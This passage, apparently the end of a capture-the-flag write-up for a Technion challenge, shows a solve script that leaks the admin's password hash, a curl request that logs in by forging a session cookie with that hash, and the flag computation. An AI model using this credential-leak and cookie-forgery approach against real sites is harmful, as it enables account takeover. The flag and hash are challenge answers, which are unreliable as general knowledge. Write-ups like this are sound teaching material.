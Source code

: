 ```python

admin_pass = leak_password(ADMIN_USER_ID)
log.success(f"Admin password: {admin_pass}")

```

Output:
```console
root@kali:/media/sf_CTFs/technion/High_School_Project# python3 solve.py
[+] Leaking password field for user 4: Done
[+] Admin password: eef2c983660a888d1c23703ab1aef09f65d90edb
```

We can double check our result by trying to access a page using these values:

```console
root@kali:/media/sf_CTFs/technion/High_School_Project# curl 'http://ctf.cs.technion.ac.il:4010/topic.php?id=1'  -H "Cookie: user_id=4; user_name=admin; user_pass=eef2
c983660a888d1c23703ab1aef09f65d90edb" -s | grep "Sign out"
    Hello admin! Not you? <a href="signout.php">Sign out</a>  </div>
```

The last part is constructing the flag according to the instructions we got:

```python
>>> import hashlib
>>> x1 = "eef2c983660a888d1c23703ab1aef09f65d90edb"
>>> x2 = hashlib.sha1(x1.encode()).hexdigest()[:10]
>>> print('The flag is: cstechnion{A1m0$7_$3cUR3_' + x2 + '}')
The flag is: cstechnion{A1m0$7_$3cUR3_ee51f2a8c6}
```

Notice that we don't know the admin's password, but we do have the SHA1 of the password which is enough to get the flag.